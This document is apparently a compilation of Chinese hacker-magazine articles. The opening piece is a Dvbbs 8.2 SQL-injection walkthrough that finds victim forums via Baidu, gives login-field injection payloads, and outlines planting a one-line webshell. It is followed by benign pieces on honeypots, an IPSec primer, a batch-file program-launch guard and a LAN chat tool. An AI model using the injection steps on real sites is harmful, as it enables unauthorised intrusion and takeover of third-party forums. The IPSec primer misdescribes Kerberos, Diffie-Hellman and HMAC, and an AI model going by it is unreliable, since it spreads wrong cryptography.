从上面的代码可以看出，变量 username 先使用了 CheckStr() 函数来过滤掉特殊字符，然后再经过 unescape() 函数进行解码。那么，我们只要用 urlencode 模式就可以绕过任何检查，与 PHP 里面的 urldecode 注入很相似。例如，用 %2527 就可以完成单引号“'”的提交！下面，我们来测试一下这个漏洞。

**从本文可以学到：**
1. Dvbbs 8.2 注射漏洞分析和利用

在 Baidu 上搜“Powered By Dvbbs Version 8.2.0”，选好目标后，先注册一个用户。这里我注册的用户名为“beyond”，然后我们打开 login.asp 这个页面（注意：不能直接从首页登录，因为首页的登录页不是调用 login.asp 的）。在用户名处填“beyond'”，密码就填你注册的密码，如图 1 所示。

点击登录，在登录框的下面就会爆出论坛所使用的数据库信息了，如图 2 所示。这里返回的信息是 Jet 连接的数据库，说明数据库为 Access 类型，现在我们进行进一步的攻击。

把用户名换成“beyond'and'1'='1”点登录，显示登录成功并返回首页。然后我们又把用户名换成“beyond'and'1'='2”，在登录框下方出现了“本论坛不存在该用户名”的提示，如图 3 所示。

我们尝试着输入“beyond'and exists (select count(*) from dv_admin) and'1'='1”登录成功并返回首页，说明存在表 dv_admin。好了，后面我就不说了，都是大家熟悉的手工注入。

关于拿 shell 的方面，Access 版如何拿 shell 目前我还没想到什么办法，但对于 MSSQL 版本，我们可以先用 update 改掉管理员的密码，进入后台后点击“系统相关”，再点“系统信息检查”就能看到论坛的绝对路径了，如图 4 所示。然后我们备份一句话到这个目录，再用一句话客户端来连接就能获得 webshell 了。

> 编辑点评：ASP 版的 Dvbbs 发展到 8.2 版本后已经很成熟了，但是存在这样的错误还是有些让人有些不安心，看来还需要大伙们再努力发掘发掘，应该还有类似的问题存在。


图 1 登录页面

图 2 爆出数据库信息

图 3 提示用户不存在

图 4 绝对路径

---

> 首语：
> 天天恶补，恶补了几年还是菜鸟，所以小鸟在世，只有不断的学习，不断的吸收。渴望着有一天可以长大，就可以拍着其他小鸟的头，意味深长的说，孩子，要努力啊。可是等你长大了，你会绝望的发现总会有一只老鸟拍着你的头，意味深长的说，孩子，要继续努力啊。终于有一天，你成为老鸟了，飞的很高，却是寒风中的满目凄凉，再也找不到当初奋力的目标。于是拍拍小鸟的头，意味深长的说，孩子，还是做小鸟最幸福啊。

# 蜜罐系统的应用

通过本文您可以学到：
- 1、认识蜜罐
- 2、学会使用两款常见的蜜罐

随着网络入侵行为的盛行，网络防范意识的增强，还有人们对黑客行为的兴趣，越来越多的人对 Honeypot（蜜罐）技术产生了兴趣。因为以往的防火墙、入侵检测、身份认证等技术采用的是被动的安全策略，并不能及时对入侵行为做出反应。而蜜罐技术则采用主动防御，捕获入侵者，及时地警告管理员及早采取防御措施。安全专家还能借助蜜罐收集的信息了解分析入侵者的动机、手段，甚至依据分析结果发现新型攻击工具、系统漏洞，及时采取相应措施降低攻击工具的效力或弥补系统漏洞。

## 那究竟何为蜜罐呢？

据蜜网项目和蜜网研究联盟的创始人 Mr. Lance Spitzner 定义：**Honeypot（蜜罐）是一种安全资源，其价值体现在被探测、攻击或者摧毁的时候。**

接下来我们就来认识和使用一些常用的蜜罐软件，业余爱好者也可藉此来了解网络诱骗技术的应用。下面是几款适用于 Windows 系统的蜜罐系统简介：

## 1. NFR BackOfficer Friendly



BackOfficer Friendly (BOF) 是一种低交互度的蜜罐，它可以运行于 Windows 或者 Unix 平台之上。BOF 可假装成一个系统，并能够监视侦测常用端口上的连接，当入侵者和主机取得连接时，他实际只是和 BOF 所伪装的服务程序作沟通，这样就形成一个诱捕的陷阱，将入侵者的行为记录下来。

其配置选项如下：
- **Run at Startup**：选此项就可以让 BOF 随系统启动，减少每次手动开启的麻烦。
- **Listen for Back Orifice**：Back Orifice 是一种基于 Windows 的木马，曾造成大范围的网络瘫痪。为了对其攻击进行检测和预警，Network Flight Recorder 公司开发和发布了此软件。
- **Listen for FTP**：FTP 文件传输协议。侦听端口为 TCP 21。此项提供对 FTP 连接的检测和预警。
- **Listen for Telnet**：Telnet 用于远程管理系统的一种明文协议。侦听端口为 TCP 23。此项可检测和预警 Telnet 连接活动。
- **Listen for SMTP**：SMTP 简单邮件传输协议，用于收发 Email 的一种明文协议。选此项可侦听端口 TCP 25 的活动。
- **Listen for HTTP**：HTTP 超文本传输协议，最可能被扫描和攻击的服务。侦听端口为 TCP 80。
- **Listen for POP3**：POP3 邮局协议，客户端用来获取 Email 的一种明文协议。侦听端口为 TCP 110。
- **Listen for IMAP2**：IMAP Internet 消息访问协议，客户端用于获取 Email 的一种明文协议。侦听端口为 TCP 143。



最后一项 **Fake Replies**，如选择此项，BOF 就允许模拟功能的使用，当有连接时会试着模拟服务并按照应用程序可能做出的反应去响应，但此功能非常有限，并不能提供特定系统的特定响应，易被攻击者觉察。

设置好 BackOfficer Friendly 后，接下来就是等待入侵者了。当 BackOfficer Friendly 检测到活动时，就会自动弹出信息界面，警告用户（如图 3）。可惜 BackOfficer Friendly 不支持远程警报。

下载该软件的压缩包，解压后在 bof 文件夹中双击 nfrbof.exe 图标，选择安装路径安装。第一次运行时会出现注册信息提示，直接点击 Evaluation 即可。BOF 是最简易的蜜罐，只有一个 GUI 界面（如图 1）。其实际大小也只有 92KB，功能非常容易配置使用，如图 2。

通过 NFR BackOfficer Friendly 记录的检测日志，我们可以直观的了解入侵者的 IP 及其所进行的活动。

## 2. Trap Server

Trap Server 是一款 WEB 服务器蜜罐软件，能模拟 Apache HTTP Server、Microsoft IIS 和 EasyPHP 服务。当有连接访问时，Trap Server 会伪装成服务器提供服务，并对活动进行监视和记录。

下载该软件压缩包，解压后双击 setup 进行安装。如图 4，Trap Server 的运行界面也相当的简单，设置也很方便。在软件界面的菜单栏中点服务器类别，我们可选择希望 Trap Server 模拟的服务器类型。此外，在界面左边服务器设置部分可设置日志、端口等。

设置好后，点击“开始监听”。现在我们来看看一下 Trap Server 的运行状态，在浏览器中输入有运行 Trap Server 的机子 IP 地址。如图 5，我们可以看到 Trap Server 模拟的服务器网站网页（此时提供的是 Microsoft IIS 服务）。

而在 Trap Server 一端，我们可看到刚才的访问活动已被记录了下来（如图 6）。由于机子本身并不提供 Web 服务，此时的连接访问便可认为是入侵探测。Trap Server 记录的检测信息中的 IP 地址并不一定是入侵者的真实 IP 地址，如何揪出真正的攻击者呢？可通过 Trap Server 运行界面右侧的“追踪入侵者”部分，跟踪 IP 经过的路由，查出对方 IP。

> 编辑点评：蜜罐就是“诱捕”骇客的工具，开个端口装上蚯蚓等你去咬。最好的蜜罐是在 Linux 下的，这方面 Windows 向来就是力不从心。如果以后你入侵太顺利了，可不要掉以轻心啊。要判断是不是蜜罐，就要靠你的细心和经验了，如果你确定中蜜罐了，就不要再对主机干什么主意了，因为即使你真的成功进去了，蜜罐记录的信息也能让你死几次了。

## 谈谈 Windows 下的 IPSec (2)

图/冷雪书生

- 从本文你可以学到：
    - IPSec 的基础知识

上期已经介绍了不少 IPSec 的基础知识，大家看明白了吗？学技术要有耐心，了解这些东西才能更好的了解 IPSec。下面我们接着上期的内容继续。

## 五、了解 Kerberos

Kerberos 是 MIT (麻省理工大学) 开发的一种身份认证协议，用于实现双方的安全通信。假定有 A、B 双方要实现安全通信，A 为普通用户，B 为服务器 (也可以认为用户)，A 想要与 B 实现安全通信还要借助一个第三方，称为 KDC (Key Distribution Center，密钥分发中心)。KDC 用于给 A、B 双方分配一个安全的会话密钥，它由认证服务器 (AS) 和授权服务器 (TGS) 组成，另外要实现 Kerberos 还需要 AD 的支持，一台 AD 服务器可以同时充当 AS 和 TGS。Kerberos 的工作过程如图 4。

A 访问 B 的安全过程大致为（分别对应图 4 中的 6 个步骤）：

- 1. A 输入自己的用户名 (明文) 和公钥发送给 AS。
- 2. AS 收到后将返回给 A 一个会话密钥 (一次性的) 和一个票据 (用于向 TGS 证实自己的身份)，这里会话密钥和票据要用 A 的公钥加密，A 收到后用其私钥解密。
- 3. A 将获得的票据、B 的服务器名以及用会话密钥加密的时间戳 (防止重发攻击) 发送给 TGS。
- 4. TGS 收到后，将返回 A 和 B 通信所用会话密钥，其中包括用 A 的公钥加密的会话密钥和用 B 的公钥加密的会话密钥 (用于 A 和 B 通信)。
- 5. A 将从 TGS 收到的用 B 的公钥加密的会话密钥发送给 B，也要发送加密的时间戳。
- 6. B 用自己的私钥解密，并进行确认，确认通过后便完成了认证过程，之后 A 就可以安全的访问 B 了。

上面说了会话密钥是一次性的，而且会话密钥加了时间戳，即使有第三方截获了会话密钥，也是无用的，一旦通信结束，会...话密钥将被自动销毁。但Kerberos的一个缺点大家应该看出来了，就是在第一步中的用户名是明文，这个用户名一般就是计算机名，这也是导致Kerberos应用不广泛的原因。

## 六、认识Diffie-Hellman


Diffie-Hellman简称DH（赫尔曼算法），可能很多人不知道它是用来干什么的，DH是一种非对称密钥算法，它使用密钥组来定义共享密钥是如何产生的，而密钥组的长度定义了公钥和私钥的长度，用DH算法来产生共享的密钥。假设我们要用DES来加密数据，但由于DES是属于对称密钥，那么如果攻击者截获了这个DES密钥，则他可以用来加/解密数据，这显然是很危险的，但借助DH效果就不一样了，比如通信双方A和B，如图5。A和B用DH算法各自产生一个私钥/公钥对，假设分别为SA/PA和SB/PB，然后A和B共享各自的公钥，接着A用PB对DES加密，假设加密后为PBDES，现在A用PBDES对数据加密，则只有B用它的私钥才能解密了，攻击者截获了也没有办法，因为他没有私钥。所以DH的主要功能就是实现对称密钥的安全，也就是密钥的安全交换。

# 七、数字签名技术

数字签名是用来证实发送者身份的，这有点像小偷偷了东西被抓后，要签名承认自己罪行一样（汗……）。数字签名有3个主要功能：

- ①完整性：确保数据报文没有被篡改。
- ②真实性：确保是由签名者所发送的。
- ③不可抵赖性：发送者发送后不能抵赖。

广泛的数字签名方法有RSA、DSS、HASH，这是非对称密钥，也可以采用对称密钥来完成，下面举个例子让你完全理解，如图6。


在发送方，首先将数据和一把公钥（防止产生相同的签名）输入到HMAC中，HMAC是一种单向散列函数，有MD5 HMAC和SHA HMAC，用来产生数字签名，也称报文摘要，它是不可逆的，攻击者无法产生出相同的签名，比如两个数34555×88333=3052346815，但却很难（或无法）逆推出这两个原数。将生成的数字签名和数据以及公钥发送给接收方，接收方将公钥和数据输入到自己的HMAC中产生出新的数字签名，然后将新的数字签名和收到的数字签名进行比较，如果相同，则说明数据是完好的，值得信任，否则数据可能被篡改了。数字签名主要就是用来证实发送者身份的。

# 八、数字证书能干什么

数字证书就好比我们生活中的公证人一样，它能够证明通信双方的身份是值得可信的，比如A用数字证书和B通信，则数字证书所需要做的就是准确地让A和B通信，而不是和攻击者C通信，为此需要有一个专门的第三方来对数字证书进行管理，这个第三方被称为CA（Certification Authority，证书授权中心）。

用户都信任CA，但CA不一定信任用户。举个例子，比如用户A向CA申请了一个证书，然后向用户B发送电子邮件，B收到后会自动获得A的公钥并可以把它保存下来，这样B就可以给A发送签名的电子邮件了，此时只有A才能查看收到的邮件，因为只有A有私钥解密。同样B也可以申请一个证书，这样A和B就可以实现安全通信了。为了让你更好的理解，我用图7进行说明。


用户A先向CA申请证书，A先会将自己的一些信息发送给CA，比如用户名、IP地址、公钥。CA收到后会将其存放在自己的证书库中，然后CA会向A返回一些信息，包括证书的有效期、CRL（证书吊销列表，相当于删除证书）、CA的公钥、CA使用的HMAC签名算法。用户B是要和A通信的，所以也要执行上面的过程。现在A要向B发起通信，可以这样来完成，A用CA的HMAC算法计算出一个报文摘要，接着用CA的公钥对数据进行加密，然后发送给CA，CA要用它的私钥解密数据将计算出新的报文摘要和原来的进行比较，如果不同则说明攻击C在这里做了手脚，接着用户B的信息也要提交给CA进行认证，只有当认证通过后，即CA同时信任A和B时，A和B才能进行后面的通信（安全通信）。有时为了方便，可以将CA的私钥导出到本地（本机），当然必须要在CA上同意才行，并且这个私钥要用一个密码来进行保护，以防攻击者C窃取后非法使用。关于数字证书的使用，以后有机会偶再来献丑一下。

## 九、认识IKE

IKE（Internet Key Exchange，Internet密钥交换协议）用于保护通信的安全以及定义密钥的产生、共享和密钥的管理。和IKE紧密联系的一个协议是ISAKMP（Internet安全关联和密钥管理协议），它相当于IKE的帮手一样，负责密钥交换的管理以及对连接过程的协商。这就好比你和你女朋友的关系一样，你力气大，做事多做点，而你女朋友力气小就少做点，她就是你的帮手，你们不能分开，否则你就成了光棍儿。同样IKE也不能脱离ISAKMP而独立存在，另外由于IKE是一个混合协议，所以它还有两个小助手，即Oakley和SKEME（这两个不用去管它，IKE只使用其中的子集，如果你感兴趣可以参考RFC 2409上的文档）。IKE过程有两个阶段，第一个阶段是建立连接，就像你打电话一样要先拨号，但未通话。第二阶段才是进行数据传输的，其实这两个阶段就是“理解SA”一节中的两个阶段，因为IKE的最终目的就是要产生SA。总之，IKE在IPSec中担当了相当重要的角色，没有它IPSec的连接过程将无法完成。

好了，基础部分就先讲到这儿，上面这些都比较重要，所以我尽力用图来让大家理解。当然还没有完，下面将结合具体情况进行讲解，“黑手”上关于IPSec应用的文章很多，所以下面偶就不具体举例了，因为我要让你学会如何自己去操纵IPSec。本文是在Windows Server 2003 SP1上进行的，XP和2003在个别地方存在小小的区别，2003是XP的增强版，所以看了2003下的IPSec，对XP下的就不在话下了，这也是我用2003的原因。而这些内容，保证让你在下期杂志中大饱眼福。

编辑点评：
没必要说太多，只是一些需要提前了解的东西、接着上期的连载。然后下期，我们就开始真正的实战操作了，准备好噢。

# 一句话的应用程序防御系统

By: 风飘雨

> 飘首语：
酷玩栏目改革了，不用局限于QQ，有什么新奇的好玩的东西尽管投过来。现在开始拼的是创意了。各种计算机与网络资源，程序的“黑客式”恶搞，玩的就是新鲜，玩的就是有趣，这就是新酷玩。这就是我们新生态黑客的style。还有哦，新酷玩从今天起只有一个很好听的名字：cooloo，什么是cooloo？我们是够酷够炫的一族，show出你的创意，show出你的精彩，这就是our cooloo，our style。

- 从本文您可以学到：
- 通过批处理制作应用程序防御系统

传说中的.bat也能创造经典，没错，就是.bat，批处理。不相信你的眼睛？还是不相信有上帝？

风飘封笔已经不知经过了多少个月轮目回了，今天从山沟里爬出来跟大家见个面，礼物是要有的，你不相信上帝也要相信我的真诚啊，是不是？本文给大家带来的就是用bat做的应用程序防御系统，所谓应用程序防御系统大家应该都熟悉，它的功能就是在非信任的程序启动之前询问我们是否允许启动它。这样在病毒木马启动之前就会被我们截获并阻止。而我今天带来的“防御系统”，它很实用，用它几乎可以挡住所有的网页木马，病毒等，它也很小巧，小巧到从头到脚，只有一行代码。

记住了哦，这行代码是这样子滴……

```batch
@echo %*&choice&if not errorlevel 2 start "" %*
```

这是最简洁的版本，用法也很简单，为了照顾菜菜，说的详细点。将这行代码保存为一个.bat文件或者.cmd文件，例如我保存为“c:\windows\rain.bat”，然后在“开始一运行”里输入“regedt32”打开注册表编辑器，展开到“HKEY_CLASSES_ROOT\exefile\shell\open\command”，其“默认”键应该是“"%1" %*”，在前面插入bat文件的位置和文件名，将其修改为“c:\windows\rain.bat "%1" %*”，（注意文件名后面有1个空格）。这样就完成了，如图 1。



图 1 修改注册表

以后当有应用程序要执行的时候就会弹出一个窗口，上面会出现将要运行的程序，点“Y”程序就会运行，点“N”就会终止程序的执行，如图 2。



图 2 一句话防御系统执行

### 关于原理：

这部分高手可忽视。关于注册表部分，这个键值是系统在调用exe程序的时候查询的键值，%1表示程序本身路径，加引号是为了防止路径名中有空格，%*代表执行时传递的参数。所以“"%1" %*”就表示直接调用那个程序。将键值修改后，有exe程序要调用系统就会交给我们的rain.bat来处理了。

### 关于代码部分：

这就是一个批处理文件，关于批处理就不讲太多了，不懂的看网上教程。简单说一下，代码以“&”可分为3部分，前面是显示要执行的程序，中间的choice是提供选择，后面是判断并加载这个程序。%*表示传递过来的程序路径和参数。start后面有两个引号是为了防止带引号的程序路径被解析成程序标题。

### 关于扩展：

如果你懂得批处理，那么你就可以将这行代码进行扩写了，可以加入自己喜欢的功能，使其更完善。比如加入时间显示，显示程序是在什么时候运行的。加上信任程序列表功能，这样同一个安全的程序就可以直接放行。下面的代码就是我稍微扩充过后的，显示更友好了，功能也更强了。

```batch
@echo off
setlocal
set Rain_OneKey="OneKey.ini"
IF EXIST %Rain_OneKey% FOR /F "tokens=* usebackq" %%i IN (%Rain_OneKey%) DO IF %%i==%1 goto Y
echo 风飘Bat 程序主动防御
echo.
echo 应用程序将要运行
echo.
echo 日期: %DATE%
echo 时间: %TIME%
echo.
echo 执行命令行:
echo %*
echo.
echo 操作:
echo.
choice /C YNA /M "Y允许执行 N禁止运行 A添加到信任列表(总是允许) : "
if errorlevel 3 goto A
if errorlevel 2 goto N
if errorlevel 1 goto Y
:Y
start "" %*
goto end
:N
goto end
:A
echo %1>> %Rain_OneKey%
start "" %*
goto end
:end
endlocal
```

稍微解释一下关键之处，第3行设置信任程序列表文件的存放位置，如果不加路径将会在当前程序相同的目录（注意不是bat文件所在的目录，而是和执行文件同目录，比如你运行QQ，就会建在QQ执行文件的目录）。第4行判断当前程序是不是在信任程序列表中。if errorlevel判断必须由高到低。其他的就很简单了，它的执行如图 3。



图 3 程序的执行

你也可以加入像日志记录等功能，总之根据自己的需要灵活运用。是不是很方便？其他的功能就是留下的任务，我就不写了，大家回去自己慢慢写。只有自己动手才能真的学到东西（其实认识我的人都知道是因为我懒^-^）。

**编辑点评：**
两个版本的代码都在光盘中了，自己拿回家躲起来好好玩吧。

- 通过本文您可学到：
- 认识 LAN QQ

# 局域网中聊天传输利器——LAN QQ

Kay4

大家好，小 K 又和读者朋友们见面了，这次带给大家的是我在一次和同学互传文件的时候发现的一款非常有趣的局域网即时通信软件懒 QQ，该软件是根据网上广为流传的飞鸽传书加上懒 QQ 社区几个月的修改而成的，有着很友好的界面，如图 1。并在其原有基础上增加点对点 (P2P) 聊天室群发消息，目前该软件的最新版本是 3.3 公测版。





速度相信大家看我的截图都看得见吧？这款软件特别适合学校、宿舍、办公室等一些局域网用户使用，是一款不可多得的好软件。相信很多读者都有在用吧，LAN QQ 现在在我们宿舍间、学校办公网络都慢慢开始在用了，大有愈演愈烈之势，还没用的就快试用看看吧！



和大多数的即时通信软件一样，懒 QQ 可以聊天，新版本中增加了聊天室功能（退出不会消失），如图 2。

好了，文章就写到这里，关于软件的使用还有什么问题或者不懂的地方可以来黑手论坛求助，我的 ID：kay4

